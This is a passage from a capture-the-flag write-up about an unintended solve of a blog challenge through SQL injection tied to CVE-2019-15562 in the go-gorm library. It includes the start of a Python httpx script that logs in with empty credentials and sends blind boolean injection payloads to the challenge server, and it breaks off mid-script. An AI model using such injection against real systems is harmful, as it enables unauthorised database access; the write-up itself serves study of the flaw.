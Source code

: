 ![](images/brokencallback.png)

# Unintentional solve using SQL Injection (by @tomato6333)

Discussing this challenge in the Discord after the CTF we also discovered an unintentional solution, and we will need to thank `@tomato6333` for this.
They found out that there was an SQL Injection possible in the live version of the challenge.
Turns out there was also a CVE inside of the `go-gorm` library
This is the cve that was used [CVE-2019-15562](https://nvd.nist.gov/vuln/detail/CVE-2019-15562) and the GitHub issue containing both a fix and a revert of said fix: [https://github.com/go-gorm/gorm/issues/2517](https://github.com/go-gorm/gorm/issues/2517)

```py
import httpx
import string

def worked(response: str) -> bool:
    return "Welcome to my blog" in response

base = "https://thecybercoopctf-276d407aefc4-the-movie-blog-0.chals.io/"
target = "/id=1"

letters = string.digits + string.ascii_letters

c = httpx.Client(base_url=base)

print("logging in...", end="")
# for some reason, logging in with empty credentials works...
c.post("/login")
# who needs error handling
print("✅")

print("checking true positive...", end="")
if worked(c.get(target + " and 1=(select id from users where id=1)").text):
```